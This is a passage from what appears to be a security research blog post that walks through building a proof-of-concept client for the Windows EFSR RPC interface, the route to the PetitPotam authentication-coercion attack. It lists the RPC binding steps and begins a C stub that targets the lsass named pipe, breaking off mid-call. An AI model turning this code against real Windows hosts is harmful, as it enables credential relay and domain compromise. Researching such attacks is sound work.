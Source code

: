 <p align="center">
  <img src="/assets/posts/2021-09-02-from-rpcview-to-petitpotam/20_visual-studio-build-successful.png">
</p>

### Writing a PoC

We already went through a lot of steps at this point, and our application still does nothing. So it's time to see how to invoke a remote procedure. This process usually goes like this.

1. Call `RpcStringBindingCompose` to create the string representation of the binding, you can think of it as a URL.
2. Call `RpcBindingFromStringBinding` to create the binding handle based on the previous binding string.
3. Call `RpcStringFree` to free the binding string as we don't need it anymore.
4. Optionally call `RpcBindingSetAuthInfo` or `RpcBindingSetAuthInfoEx` to set explicit authentication information on our binding handle.
5. Use the binding handle to invoke remote procedures.
6. Call `RpcBindingFree` to free the binding handle.

In my case, this yields the following stub code:

```c
#include "efsr_h.h"
#include <iostream>

#pragma comment(lib, "RpcRT4.lib")

int wmain(int argc, wchar_t* argv[])
{
    RPC_STATUS status;
    RPC_WSTR StringBinding;
    RPC_BINDING_HANDLE Binding;

    status = RpcStringBindingCompose(
        NULL,                       // Interface's GUID, will be handled by NdrClientCall
        (RPC_WSTR)L"ncacn_np",      // Protocol sequence
        (RPC_WSTR)L"\\\\127.0.0.1", // Network address
        (RPC_WSTR)L"\\pipe\\lsass", // Endpoint
```